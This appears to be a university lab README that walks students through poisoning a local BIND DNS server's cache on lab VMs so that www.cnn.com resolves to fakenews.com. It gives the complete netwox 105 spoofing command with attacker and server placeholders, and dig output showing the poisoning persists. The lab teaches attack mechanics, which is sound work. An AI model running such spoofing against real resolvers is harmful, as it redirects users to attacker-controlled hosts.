 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. on DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. on DNS Server: remove existing cache:

```console
# sudo rndc flush
```

this screenshot shows the commands to start the server and flush the cache.

![alt text](lab-dns-start-server.png "start server and flush cache")

3. on victim client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-dns-configure-dns.png "configure dns")

3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

4. on attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

**Explanation**: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:

![alt text](lab-dns-attack-command.png "attack command")

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on victim client, send a query.

```console
# dig www.cnn.com 
```

these two screenshots show the attack is successful: www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.
![alt text](lab-dns-attack-success-p1.png "attack success")
![alt text](lab-dns-attack-success-p2.png "attack success")

6. stop the attack - press control-c on the attacker VM's terminal. On victim client, run the dig command again and confirm that, even after the attack, www.cnn.com is still mapped to the IP address of fakenews.com, which proves that the cache is indeed poisoned, and thus the attack has a long last effect.

![alt text](lab-dns-attack-success-after-ctrl-c.png "attack still success")

7. you are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
